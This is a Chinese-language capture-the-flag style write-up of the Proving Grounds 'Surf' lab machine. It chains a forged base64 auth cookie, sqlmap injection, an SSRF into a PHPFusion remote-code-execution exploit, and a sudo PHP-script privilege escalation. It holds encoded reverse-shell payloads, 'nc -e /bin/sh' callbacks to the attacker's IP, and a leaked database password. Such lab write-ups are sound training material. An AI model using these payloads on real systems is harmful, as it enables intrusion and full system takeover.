


# ProvingGrounds Surf WriteUp


&lt;!--more--&gt;

## 端口扫描：

整理

```shell
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/surf]
└─$ sudo nmap -n -r --min-rate=3500 -p- -sSV --script default,vuln 192.168.162.171 -oN surf-all.txt 
[sudo] xavier 的密码：
Starting Nmap 7.94 ( https://nmap.org ) at 2023-12-03 14:59 CST

Nmap scan report for 192.168.162.171
Host is up (0.22s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10&#43;deb10u2 (protocol 2.0)
| vulners:  CVEs
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Surfing blog
| vulners: 
|   cpe:/a:apache:http_server:2.4.38:  CVEs
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on &#39;apache/2.4.38 (debian)&#39;
|_  /js/: Potentially interesting directory w/ listing on &#39;apache/2.4.38 (debian)&#39;
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.76 seconds

```


## Web扫描

访问 80端口Web服务，是个博客，文章作者是Admin。

Web扫描

```shell
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/surf]
└─$ dirsearch -x 400,404  -t 500 -e php,asp,aspx,ini,txt,bak -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.162.171 
```

发现管理后台登录口：http://192.168.162.171/administration/login.php

尝试暴破，失败

登录失败的返回包中有这个头`Set-Cookie: auth_status=eydzdWNjZXNzJzonZmFsc2UnfQ%3D%3D`，base64接码后为`{&#39;success&#39;:&#39;false&#39;}`

抓包改包，手动修改为true后进入后台，绕过前端限制。

发现有个页面，测试发现存在order by点位的注入

```shell
http://192.168.162.171/administration/customers.php?search_string=c&amp;filter_col=if((substr(version(),1,1)=&#39;8&#39;),id,phone)&amp;order_by=asc
```

测试发现后端SQL语句为：

```sql
SELECT SQL_CALC_FOUND_ROWS id, f_name, l_name, gender, phone, created_at, updated_at FROM customers WHERE  f_name like ?  OR l_name like ?  ORDER BY id ASC  LIMIT 0, 15 
```

因为不是考试，想偷懒，于是用上了sqlmap

```shell
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/surf]
└─$ sqlmap -r sqli.txt --banner --level=3 --risk=3 -p &#39;filter_col&#39; --batch
……
GET parameter &#39;filter_col&#39; is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 516 HTTP(s) requests:
---
Parameter: filter_col (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: search_string=c&amp;filter_col=id AND 7911=(SELECT (CASE WHEN (7911=7911) THEN 7911 ELSE (SELECT 6771 UNION SELECT 4630) END))-- -&amp;order_by=asc

    Type: time-based blind
    Title: MySQL &gt;= 5.0.12 AND time-based blind (query SLEEP)
    Payload: search_string=c&amp;filter_col=id AND (SELECT 9022 FROM (SELECT(SLEEP(5)))HmQp)&amp;order_by=asc
---
[16:36:30] [INFO] the back-end DBMS is MySQL
[16:36:30] [INFO] fetching banner
[16:36:30] [WARNING] running in a single-thread mode. Please consider usage of option &#39;--threads&#39; for faster data retrieval
[16:36:30] [INFO] retrieved: 10.3.31-MariaDB-0&#43;deb10u1
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL &gt;= 5.0.12 (MariaDB fork)
banner: &#39;10.3.31-MariaDB-0&#43;deb10u1&#39;
[16:37:10] [INFO] fetched data logged to text files under &#39;/home/xavier/.local/share/sqlmap/output/192.168.162.171&#39;

[*] ending @ 16:37:10 /2023-12-03/

# 写shell失败
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/surf]
└─$ sqlmap -r sqli.txt --level=3 --risk=3 -p &#39;filter_col&#39; --batch --os-shell

# 获取数据
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/surf]
└─$ sqlmap -r sqli.txt --level=3 --risk=3 -p &#39;filter_col&#39; --batch --dump
……
Database: corephpadmin
Table: admin_accounts
[1 entry]
&#43;----&#43;-----------&#43;---------&#43;--------------------------------------------------------------&#43;-----------&#43;------------&#43;----------------&#43;
| id | series_id | expires | password                                                     | user_name | admin_type | remember_token |
&#43;----&#43;-----------&#43;---------&#43;--------------------------------------------------------------&#43;-----------&#43;------------&#43;----------------&#43;
| 11 | NULL      | NULL    | $2y$10$7y1lSqjchay03PgTMMW6a.wtR9CosWV4tLSaycUhcXQLvT.PJtiLm | james     | super      | NULL           |
&#43;----&#43;-----------&#43;---------&#43;--------------------------------------------------------------&#43;-----------&#43;------------&#43;----------------&#43;
……
```

拿到管理员密码哈希

尝试解密

```shell
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/surf]
└─$ hashid &#39;$2y$10$7y1lSqjchay03PgTMMW6a.wtR9CosWV4tLSaycUhcXQLvT.PJtiLm&#39;
Analyzing &#39;$2y$10$7y1lSqjchay03PgTMMW6a.wtR9CosWV4tLSaycUhcXQLvT.PJtiLm&#39;
[&#43;] Blowfish(OpenBSD) 
[&#43;] Woltlab Burning Board 4.x 
[&#43;] bcrypt 
                                                                                                                                                                                                              
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/surf]
└─$ echo &#39;$2y$10$7y1lSqjchay03PgTMMW6a.wtR9CosWV4tLSaycUhcXQLvT.PJtiLm&#39; &gt; james.hash
                                                                                                                                                                                                              
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/surf]
└─$ hashcat -h | grep -i bcrypt                                                                                       
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce
                                                                                                                                                                                                              
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/surf]
└─$ hashcat -m 3200 james.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
```

这是个兔子洞

又找到了另一个点



搜索历史漏洞发现有RCE

```shell
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/surf]
└─$ searchsploit phpfusion
-------------------------------------------------------------- ---------------------------------
 Exploit Title                                                |  Path
-------------------------------------------------------------- ---------------------------------
PHPFusion 9.03.50 - Persistent Cross-Site Scripting           | php/webapps/48497.txt
PHPFusion 9.03.50 - Remote Code Execution                     | php/webapps/49911.py
PHPFusion 9.10.30 - Stored Cross-Site Scripting (XSS)         | php/webapps/51411.txt
-------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```


通过SSRF打漏洞

```http
POST /administration/checkserver.php HTTP/1.1
Host: 192.168.162.171
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml&#43;xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 229
Origin: http://192.168.162.171
Connection: close
Referer: http://192.168.162.171/administration/checkserver.php
Cookie: auth_status=eydzdWNjZXNzJzondHJ1ZSd9; PHPSESSID=2uojiamq1deog17k1vbe1t5p1s
Upgrade-Insecure-Requests: 1

url=http%3A%2F%2F127.0.0.1%3A8080//infusions/downloads/downloads.php?cat_id=$%5C%7Bsystem(base64_decode(cGhwIC1yICckc29jaz1mc29ja29wZW4oIjE5Mi4xNjguNDUuMTk3Iiw5MDAyKTtleGVjKCIvYmluL2Jhc2ggLWkgPCY0ID4mNCAyPiY0Iik7JyAg)).exit%5C%7D
```

问题是shell一连上就直接断了

```shell
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/surf]
└─$ nc -nlvp 9002 
listening on [any] 9002 ...
connect to [192.168.45.197] from (UNKNOWN) [192.168.162.171] 34322
```


最后成功的payload

```shell
url=http%3A%2F%2F127.0.0.1%3A8080//infusions/downloads/downloads.php?cat_id=$%5C%7Bsystem(base64_decode(cGhwIC1yICdleGVjKCJuYyAxOTIuMTY4LjQ1LjE5NyA4MCAtZSAvYmluL3NoIik7JyAg)).exit%5C%7D

# 解码后
http://127.0.0.1:8080//infusions/downloads/downloads.php?cat_id=$\{system(base64_decode(cGhwIC1yICdleGVjKCJuYyAxOTIuMTY4LjQ1LjE5NyA4MCAtZSAvYmluL3NoIik7JyAg)).exit\}

php -r &#39;exec(&#34;nc 192.168.45.197 80 -e /bin/sh&#34;);&#39;  
```


```shell
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/surf]
└─$ nc -nlvp 80
listening on [any] 80 ...
connect to [192.168.45.197] from (UNKNOWN) [192.168.162.171] 54366
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
ls /home/
james
ls /home/james/
local.txt
cat /home/james/local.txt
a4e66109b23dd0df9165c992668efe14
python3 -c &#39;import pty;pty.spawn(&#34;/bin/bash&#34;)&#39;;
www-data@Surf:/var/www/html/infusions/downloads$
```


## 权限提升

linpeas信息搜集

```shell
╔══════════╣ Searching passwords in config PHP files
$locale[&#39;853&#39;] = &#34;Admin Password:&#34;;
define(&#39;DB_PASSWORD&#39;, &#34;FlyToTheMoon213!&#34;);
define(&#39;DB_USER&#39;, &#34;core&#34;);
```

拿到密码，试出来是james的

```shell
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/surf]
└─$ sshpass -p &#39;FlyToTheMoon213!&#39; ssh james@192.168.162.171
Linux Surf 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
$ id
uid=1000(james) gid=1000(james) groups=1000(james)
$ python3 -c &#39;import pty;pty.spawn(&#34;/bin/bash&#34;)&#39;;
james@Surf:~$ ls
local.txt
james@Surf:~$ cat local.txt 
a4e66109b23dd0df9165c992668efe14
james@Surf:~$ 
```


查看sudo权限

```shell
james@Surf:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for james: 
Matching Defaults entries for james on Surf:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User james may run the following commands on Surf:
    (ALL) /usr/bin/php /var/backups/database-backup.php
james@Surf:~$ ls -al /var/backups/database-backup.php 
-rwxr-xr-x 1 www-data www-data 2758 Nov  9  2021 /var/backups/database-backup.php
james@Surf:~$ 
```

有思路了，修改PHP文件，sudo执行反弹shell

切换2个用户太麻烦了，主要是nc的shell不方便修改文件，干脆直接修改权限为777

```shell
www-data@Surf:/var/backups$ chmod 777 database-backup.php 
www-data@Surf:/var/backups$ ls -l database-backup.php 
-rwxrwxrwx 1 www-data www-data 2829 Dec  3 06:07 database-backup.php
```


试了下写在文件末尾不行，只能写在前面。

```shell
james@Surf:~$ vi /var/backups/database-backup.php
james@Surf:~$ 
james@Surf:~$ head /var/backups/database-backup.php
&lt;?php

/**
* Updated: Mohammad M. AlBanna
* Website: MBanna.info
*/

system(&#34;nc 192.168.45.197 9000 -e /bin/sh&#34;);

james@Surf:~$ sudo /usr/bin/php /var/backups/database-backup.php

```


```shell
┌──(xavier㉿kali)-[~/Desktop/OSCP/PG_Practice/surf]
└─$ nc -nlvp 9000
listening on [any] 9000 ...
connect to [192.168.45.197] from (UNKNOWN) [192.168.162.171] 33036
id
uid=0(root) gid=0(root) groups=0(root)
ls /root/
proof.txt
cat /root/proof.txt
e58a15c56a6f26de90c3393c15f0bc20

```




---

> 作者: Xavier  
> URL: http://localhost:1313/posts/provinggrounds-surf/  

